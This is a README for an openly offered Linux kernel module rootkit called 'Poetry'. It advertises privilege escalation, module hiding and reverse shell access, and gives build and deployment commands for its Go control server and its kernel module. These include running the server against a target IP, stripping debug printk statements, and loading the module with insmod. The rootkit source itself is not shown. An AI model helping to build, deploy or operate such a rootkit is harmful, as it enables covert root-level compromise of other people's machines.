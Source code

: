 # Poetry
This is a Linux kernel module rootkit made for >=5.13. It features privilege escalation, module hiding, and reverse shell capabilities. 

## Server Setup
### Building
#### If not on Linux:
Docker must be installed in order to compile the server binary. 
```sh
cd srv/
make # compile the go binary
ls out/ # compiled binary will be in the out/ directory
```
#### If on Linux:
You can utilize the method above if you have Docker installed, or you can use the method below if you have Golang installed. 
```sh
cd srv/

# compile the server binary
go build
```

The compiled binary will be called: `poetry`

### Running
Copy the compiled binary to the host system. Run the following commands to interact with the target:
```sh
export IFACE=<ethernet_interface> # set interface env var
sudo -E ./poetry -t <target_ip> # -E passes the env vars to sudo
```

## Kernel Module
### Tested On:
- 5.13.something
### Building
```sh
# install needed packages
apt update
apt install build-essential \
            checkinstall \
            linux-headers-$(uname -r) \
            -y 

cd lkm/

# comment out the printk debug statements
sed -i 's/printk/\/\/printk/g' *.c 

# compile the kernel module with the corresponding headers
make 
```
The compiled LKM will be: `poet.ko`
### Installing
```sh
# install the kernel module on the system
sudo insmod poet.ko 
```
